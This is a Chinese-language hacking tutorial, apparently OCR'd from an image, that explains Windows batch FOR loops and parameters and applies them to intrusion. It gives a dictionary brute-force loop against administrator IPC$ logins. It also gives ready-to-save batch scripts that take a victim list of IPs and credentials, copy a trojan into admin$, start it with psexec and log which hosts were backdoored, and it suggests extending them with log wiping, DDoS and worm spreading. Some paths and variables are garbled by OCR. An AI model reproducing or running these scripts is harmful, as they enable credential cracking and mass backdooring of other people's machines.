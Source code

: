 FOR /R [[drive:]path] %variable IN (set) DO command [command- 检查以 [drive:]path 为根的目录树，指向每个目录中的 FOR 语句。如果在 /R 后没有指定目录，则使用当前 目录。如果集仅为一个单点(.)字符，则枚举该目录树。 FOR /L %variable IN (start,step,end) DO command [command-para 该集表示以增量形式从开始到结束的一个数字序列。 因此，(1,1,5) 将产生序列 1 2 3 4 5，(5,-1,1) 将产生 序列 (5 4 3 2 1)。 FOR /F ["options"] %variable IN (file-set) DO command FOR /F ["options"] %variable IN ("string") DO command FOR /F ["options"] %variable IN (command) DO command 或者，如果有 usebackq 选项: FOR /F ["options"] %variable IN (file-set) DO command FOR /F ["options"] %variable IN ("string") DO command FOR /F ["options"] %variable IN (command) DO command filenameset 为一个或多个文件名。继续到 filenameset 中的 下一个文件之前，每份文件都已被打开、读取并经过处理。 处理包括读取文件，将其分成一行行的文字，然后将每行 解析成零或更多的符号。然后用已找到的符号字符串变量值 调用 For 循环。以默认方式，/F 通过每个文件的每一行中分开 的第一个空白符号。跳过空白行。您可通过指定可选 "options" 参数替代默认解析*作。这个带引号的字符串包括一个或多个 指定不同解析选项的关键字。这些关键字为: eol=c - 指一个行注释字符的结尾(就一个) skip=n - 指在文件开始时忽略的行数。 delims=xxx - 指分隔符集。这个替换了空格和跳格键的 默认分隔符集。 tokens=x,y,m-n - 指每行的哪一个符号被传递到每个迭代 的 for 本身。这会导致额外变量名称的 格式为一个范围。通过 nth 符号指定 m 符号字符串中的最后一个字符星号， 那么额外的变量将在最后一个符号解析之 分配并接受行的保留文本。 usebackq - 指定新语法已在下类情况中使用: 在作为命令执行一个后引号的字符串并且 引号字符为文字字符串命令并允许在 fi 中使用双引号扩起文件名称。 sample1: FOR /F "eol=; tokens=2,3* delims=, " %i in (myfile.txt) do command 会分析 myfile.txt 中的每一行，忽略以分号打头的那些行，将 每行中的第二个和第三个符号传递给 for 程序体；用逗号和/或 空格定界符号。请注意，这个 for 程序体的语句引用 %i 来 取得第二个符号，引用 %j 来取得第三个符号，引用 %k 来取得第三个符号后的所有剩余符号。对于带有空格的文件 名，您需要用双引号将文件名括起来。为了用这种方式来使 用双引号，您还需要使用 usebackq 选项，否则，双引号会 被理解成是用作定义某个要分析的字符串的。 %i 专门在 for 语句中得到说明，%j 和 %k 是通过 tokens= 选项专门得到说明的。您可以通过 tokens= 一行 指定最多 26 个符号，只要不试图说明一个高于字母 z 或 Z 的变量。请记住，FOR 变量是单一字母、分大小写和全局的； 同时不能有 52 个以上都在使用中。 您还可以在相邻字符串上使用 FOR /F 分析逻辑；方法是， 用单引号将括号之间的 filenameset 括起来。这样，该字符 串会被当作一个文件中的一个单一输入行。 最后，您可以用 FOR /F 命令来分析命令的输出。方法是，将 括号之间的 filenameset 变成一个反括字符串。该字符串会 被当作命令行，传递到一个子 CMD.EXE，其输出会被抓进 内存，并被当作文件分析。因此，以下例子: FOR /F "usebackq delims==" %i IN (`set`) DO @echo %i 会枚举当前环境中的环境变量名称。 另外，FOR 变量参照的替换已被增强。您现在可以使用下列 选项语法: ~I - 删除任何引号(")，扩充 %I %~fI - 将 %I 扩充到一个完全合格的路径名 %~dI - 仅将 %I 扩充到一个驱动器号 %~pI - 仅将 %I 扩充到一个路径 %~nI - 仅将 %I 扩充到一个文件名 %~xI - 仅将 %I 扩充到一个文件扩展名 %~sI - 扩充的路径只含有短名 %~aI - 将 %I 扩充到文件的文件属性 %~tI - 将 %I 扩充到文件的日期/时间 %~zI - 将 %I 扩充到文件的大小 %~$PATH:I - 查找列在路径环境变量的目录，并将 %I 扩充 到找到的第一个完全合格的名称。如果环境变量 未被定义，或者没有找到文件，此组合键会扩充 空字符串 可以组合修饰符来得到多重结果: %~dpI - 仅将 %I 扩充到一个驱动器号和路径 %~nxI - 仅将 %I 扩充到一个文件名和扩展名 %~fsI - 仅将 %I 扩充到一个带有短名的完整路径名 %~dp$PATH:i - 查找列在路径环境变量的目录，并将 %I 扩充 到找到的第一个驱动器号和路径。 %~ftzaI - 将 %I 扩充到类似输出线路的 DIR 在以上例子中，%I 和 PATH 可用其他有效数值代替。%~ 语法 用一个有效的 FOR 变量名终止。选取类似 %I 的大写变量名 比较易读，而且避免与不分大小写的组合键混淆。 以上是MS的官方帮助，下面我们举几个例子来具体说明一下For命令在入侵中的用途。 sample2： 利用For命令来实现对一台目标Win2k主机的暴力密码破解。 我们用net use ipipc$ "password" /u:"administrator"来尝试这和目标主机进行连接，当成功时记下密码。 最主要的命令是一条：for /f i% in (dict.txt) do net use ipipc$ "i%" /u:"administrator" 用i%来表示admin的密码，在dict.txt中这个取i%的值用net use 命令来连接。然后将程序运行结果传递给find命令－－ for /f i%% in (dict.txt) do net use ipipc$ "i%%" /u:"administrator"|find ":命令成功完成"&gt;&gt;D:ok.txt ，这样就ko了。 sample3： 你有没有过手里有大量肉鸡等着你去种后门＋木马呢？，当数量特别多的时候，原本很开心的一件事都会变得很郁闷：）。文章开头就谈到使用批处理文件，可以简化日常或重复性任务。那么如何实现呢？呵呵，看下去你就会明白了。 主要命令也只有一条：（在批处理文件中使用 FOR 命令时，指定变量使用 %%variable） @for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call door.bat %%i %%j %%k tokens的用法请参见上面的sample1，在这里它表示按顺序将victim.txt中的内容传递给door.bat中的参数%i %j %k。 而cultivate.bat无非就是用net use命令来建立IPC$连接，并copy木马＋后门到victim，然后用返回码（If errorlever =）来筛选成功种植后门的主机，并echo出来，或者echo到指定的文件。 delims= 表示vivtim.txt中的内容是一空格来分隔的。我想看到这里你也一定明白这victim.txt里的内容是什么样的了。应该根据%%i %%j %%k表示的对象来排列，一般就是 ip password username。 代码雏形： --------------- cut here then save as a batchfile(I call it main.bat ) --------------------------- @echo off @if "%1"=="" goto usage @for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call IPChack.bat %%i %%j %%k @goto end :usage @echo run this batch in dos modle.or just double-click it. :end --------------- cut here then save as a batchfile(I call it main.bat ) --------------------------- ------------------- cut here then save as a batchfile(I call it door.bat) ----------------------------- @net use \%1ipc$ %3 /u:"%2" @if errorlevel 1 goto failed @echo Trying to establish the IPC$ connection …………OK @copy windrv32.exe\%1admin$system32 &amp;&amp; if not errorlevel 1 echo IP %1 USER %2 PWD %3 &gt;&gt;ko.txt @psexec \%1 c:winntsystem32windrv32.exe @psexec \%1 net start windrv32 &amp;&amp; if not errorlevel 1 echo %1 Backdoored &gt;&gt;ko.txt :failed @echo Sorry can not connected to the victim. ----------------- cut here then save as a batchfile(I call it door.bat) -------------------------------- 这只是一个自动种植后门批处理的雏形，两个批处理和后门程序（Windrv32.exe）,PSexec.exe需放在统一目录下.批处理内容 尚可扩展,例如:加入清除日志+DDOS的功能,加入定时添加用户的功能,更深入一点可以使之具备自动传播功能(蠕虫).此处不多做叙述,有兴趣的朋友可自行研究. —————————— 2：No.2 二.如何在批处理文件中使用参数 批处理中可以使用参数，一般从1%到 9%这九个，当有多个参数时需要用shift来移动，这种情况并不多见，我们就不考虑它了。 sample1：fomat.bat @echo off if "%1"=="a" format a: :format @format a:/q/u/auotset @echo please insert another disk to driver A. @pause @goto fomat 这个例子用于连续地格式化几张软盘，所以用的时候需在dos窗口输入fomat.bat a，呵呵,好像有点画蛇添足了～^_^ sample2： 当我们要建立一个IPC$连接地时候总要输入一大串命令，弄不好就打错了，所以我们不如把一些固定命令写入一个批处理，把肉鸡地ip password username 当着参数来赋给这个批处理，这样就不用每次都打命令了。 @echo off @net use Ι%ipc$ "2%" /u:"3%" 注意哦，这里PASSWORD是第二个参数。 @if errorlevel 1 echo connection failed 怎么样,使用参数还是比较简单的吧？你这么帅一定学会了^_^.
